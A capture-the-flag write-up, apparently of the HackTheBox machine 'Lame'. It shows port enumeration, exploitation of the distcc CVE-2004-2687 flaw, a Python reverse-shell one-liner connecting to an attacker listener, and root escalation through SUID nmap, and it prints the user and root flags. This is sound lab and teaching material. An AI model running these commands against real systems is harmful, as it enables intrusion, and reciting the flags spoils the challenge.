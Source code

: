 ```yaml
---
sticker: emoji//1f613
---
```

# ENUMERATION
---



## OPEN PORTS
---


| PORT | SERVICE |
| :--- | :------ |
| 22   | SSH     |
| 139  | SMB     |
| 445  | SMB     |
| 3632 | distccd |



# RECONNAISSANCE
---

FTP anonymous login is enabled, let's check it out:


![](CYBERSECURITY/IMAGES/Pasted%20image%2020250402152900.png)

Nothing in here, `smb` anonymous login is not enabled unfortunately, let's keep on going, if we remember the scan, we got the following on port `3632`:

```
PORT     STATE SERVICE VERSION
3632/tcp open  distccd distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
```

We got something called `distccd`, `distcc` is a tool designed to distribute compilation of C/C++/Objective-C code across multiple machines on a network. It speeds up large builds by parallelizing the workload.

Since we got `distccd v1`, we can search for an exploit regarding that version:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250402153430.png)




# EXPLOITATION
---


This is a pretty old CVE, we are facing `CVE-2004-2687`, we can search for an exploit in GitHub:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250402153623.png)

Link: https://github.com/angelpimentell/distcc_cve_2004-2687_exploit


If we use the exploit, we can see this:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250402153655.png)


We can get ourselves an interactive shell: 

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.239",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

If we check up our listener:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250402154059.png)

Let's proceed with privesc.



# PRIVILEGE ESCALATION
---


First step is to stabilize our shell:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

We can read `user.txt` now:

```
daemon@lame:/$ cat /home/makis/user.txt
6c8d8478b697ee1e975fb840878c905a
```

Let's use linpeas for a way to get into root:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250402154841.png)

We got `nmap` binary set with a `4000 SUID`, let's check `gtfobins`:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250402155155.png)

So, we need to do the following in order to get root:

```
/usr/bin/nmap --interactive
!sh
```

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250402155218.png)

We can finally read `root.txt`:

```
sh-3.2# cat /root/root.txt
259db45cfc8e1723f21fb0387f48ff5f
```


![](CYBERSECURITY/IMAGES/Pasted%20image%2020250402155300.png)


